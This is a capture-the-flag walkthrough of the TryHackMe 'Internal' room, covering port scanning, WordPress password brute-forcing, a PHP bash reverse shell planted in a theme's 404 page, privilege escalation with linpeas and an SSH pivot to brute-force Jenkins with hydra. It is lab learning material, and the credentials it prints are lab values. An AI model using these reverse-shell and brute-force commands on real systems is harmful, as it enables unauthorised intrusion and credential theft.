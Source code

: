 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
Password: bubb13guM!@#123
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked and the jenkins server is being ran on docker and I had no access to anything for that  so I resorted to using hydra.

```
hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
```

